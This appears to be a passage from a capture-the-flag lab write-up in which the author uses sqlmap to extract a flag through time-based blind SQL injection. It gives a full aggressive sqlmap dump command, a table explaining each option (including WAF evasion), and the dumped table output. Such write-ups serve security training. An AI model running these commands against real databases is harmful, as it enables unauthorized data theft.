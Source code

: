 ```
[21:01:42] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[21:01:44] [WARNING] GET parameter 'id' does not seem to be injectable
[21:01:44] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```


We need to use the following command instead:

```
python3 sqlmap.py -r case5.txt --batch --dump -T flag5 -D testdb --no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries
```

```ad-important
#### Breakdown of the command
---

|**Option**|**Purpose**|
|---|---|
|`-r case5.txt`|Load the HTTP request from `case5.txt` (e.g., a captured request from Burp Suite or browser).|
|`--batch`|Run in non-interactive mode (automatically selects default options without user input).|
|`--dump`|Dump the contents of the specified table (`-T flag5`).|
|`-T flag5`|Target the table named `flag5`.|
|`-D testdb`|Target the database named `testdb`.|
|`--no-cast`|Disable payload casting (e.g., treat all data as strings). Useful if the database returns data in unexpected formats.|
|`--dbms=MySQL`|Force SQLMap to treat the backend DBMS as **MySQL**. Speeds up detection/exploitation.|
|`--technique=T`|Use **time-based blind SQL injection** (slower but effective when other techniques fail).|
|`--time-sec=10`|Set the delay for time-based injections to **10 seconds** (default: 5). Used to bypass WAFs or handle slow responses.|
|`--level=5`|Set the **test level to 5** (max: 5). Enables advanced tests (e.g., testing `Host` header for SQLi).|
|`--risk=3`|Set the **risk level to 3** (max: 3). Enables riskier payloads (e.g., heavy `OR`-based queries).|
|`--fresh-queries`|Ignore cached/stored query results. Forces SQLMap to re-run queries (useful if previous runs failed).|

```

After a long wait, we get the following:

```
Database: testdb
Table: flag5
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{700_much_r15k_bu7_w0r7h_17} |
+----+---------------------------------+
```
